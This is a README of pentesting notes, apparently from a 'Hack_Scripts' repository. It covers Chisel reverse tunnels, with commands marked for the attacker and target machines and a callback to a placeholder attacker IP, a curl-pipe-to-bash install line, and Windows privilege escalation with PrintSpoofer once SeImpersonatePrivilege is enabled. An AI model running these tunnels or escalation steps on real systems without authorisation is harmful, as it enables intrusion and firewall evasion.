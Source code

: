 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

### Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
  - server - runs chisel in server mode.
  - client - runs chisel in client mode.
    
  Read more:
  https://github.com/jpillora/chisel
    
`chisel server -p 9000 --reverse -v`   >> Run in Attacker Machine  
`chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>`   >> Run in Target Machine
 

# PrinterSpoofer

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/  

Windows privilege escalation, To achive this check for **Privilages Information** by 
`whoami /priv'  

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State     
============================= ========================================= ========  
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled  
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled  
SeAuditPrivilege              Generate security audits                  Disabled  
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled   
**SeImpersonatePrivilege        Impersonate a client after authentication Enabled**  
SeCreateGlobalPrivilege       Create global objects                     Enabled   
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled    
  
***SeImpersonatePrivilege*** need to be **Enabled**  

## Command for escaltion
`PrinterSpoofer.exe -i -c cmd`
